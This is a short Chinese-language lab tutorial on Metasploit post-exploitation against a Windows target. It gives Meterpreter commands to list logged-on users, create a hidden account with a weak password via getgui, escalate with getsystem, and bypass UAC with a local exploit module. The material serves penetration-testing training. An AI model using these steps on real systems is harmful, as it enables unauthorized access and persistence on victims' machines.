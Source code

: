 一、环境准备

1 MSF-Metasploit Framework

2 一台获取到meterpreter的靶机

二、实际操作

1、先看下目标靶机已存在用户  meterpreter中输入：run post/windows/gather/enum_logged_on_users

![1643108073546](22 后渗透之创建账户（Windows）.assets/1643108073546.png) 

2、使用getgui创建 一个用户名为 msb  密码为 123456  的账户

run getgui -u msb -p 123456

run getgui -u {用户名}-p {密码}

进入windows靶场中运行输入netplwiz 可以查看账户创建情况

![1643108092979](22 后渗透之创建账户（Windows）.assets/1643108092979.png)

[-] Insufficient privileges, account was not be created. 看到这个提示就需要先提权（获取到system），可以使用geysystem进行提权。

2.1 绕过UAC提权

当不能直接使用getsystem提权，可以利用这个模块进行绕过提权。

use exploit/windows/local/*ask*

设置session属性，然后使用run运行，然后在靶场需要点击这个exe可以运行。

然后kali才能进入到meterpreter中，于是可以再次使用getsystem来尝试提权。

![image-20240918172026608](24.后渗透之创建账户（Windows）/image-20240918172026608.png)	

​	